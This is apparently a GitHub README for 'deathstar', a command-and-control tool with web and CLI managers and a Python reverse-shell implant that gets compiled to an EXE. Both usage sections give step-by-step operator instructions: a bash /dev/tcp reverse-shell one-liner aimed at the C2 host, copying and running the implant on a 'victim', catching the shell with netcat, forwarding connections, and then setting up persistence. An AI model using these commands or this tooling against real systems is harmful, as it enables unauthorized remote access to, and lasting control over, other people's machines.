 # deathstar
Build and understand C2 infrastructure.

`Deathstar` has a webpage, or a CLI based C2 connection manager.

`stardestroyer.py` is the "preffered" option to connecting to the C2 server.

`compiler.sh` will convert `stardestroyer.py` into an EXE.

# Web based C2
![image](https://github.com/user-attachments/assets/2276420d-6134-48a0-8e2e-5e6a0ddef95b)

# CLI based C2
![image](https://github.com/user-attachments/assets/e574c863-f44f-47fb-ad8a-7c3148b247e2)

# Download deathstar

```git clone github.com/bwithe/deathstar```

# Web C2 server 
1. Start the server
    - `python3 deathstar-web.py`
2. Open link in web browser
    - `firefox 127.0.0.1:5000`
3. Have Victim connect to C2
    - Linux / MacOS
      - This will drop the moment the C2 server 'drops'
      - `bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`
    - Python reverse shell
      - This will continue to connect to the C2 server even after it 'drops'
      - Modify the 'SERVER_IP = ' in `stardestroyer.py`   
      - `bash compiler.sh stardestroyer.py`
      - Copy `stardestoryer` to VICTIM
      - `chmod +x stardestroyer`
      - `./stardestroyer`
4. Start your listener 
    - `nc -nvlp 4444`
5. Forward the connection to your listener
    - On the webpage, type the IP of the listening device, and then click forward.
6. Catch the connection
    - Once you've caught the connection, begin setting up persistence.
7. Wash, rince, repeat.

# CLI C2 server
1. Start the server
    - `python3 deathstar-term.py`
2. Have Victim connect to C2
    - Linux / MacOS
      - This will drop the moment the C2 server 'drops'
      - `bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`
    - Python reverse shell
      - This will continue to connect to the C2 server even after it 'drops'
      - Modify the 'SERVER_IP = ' in `stardestroyer.py`   
      - `bash compiler.sh stardestroyer.py`
      - Copy `stardestoryer` to VICTIM
      - `chmod +x stardestroyer`
      - `./stardestroyer`
3. Start your listener 
    - `nc -nvlp 4444`
4. Forward the connection to your listener
    - On the CLI, list the connections.
      - Select `2)` to forward.
      - Specify the `ID` of the `VICTIM` you'd like to forward.
      - Then, type the IP of your `LISTENING` device.
5.Catch the connection
    - Once you've caught the connection, begin setting up persistence.
6. Wash, rince, repeat.

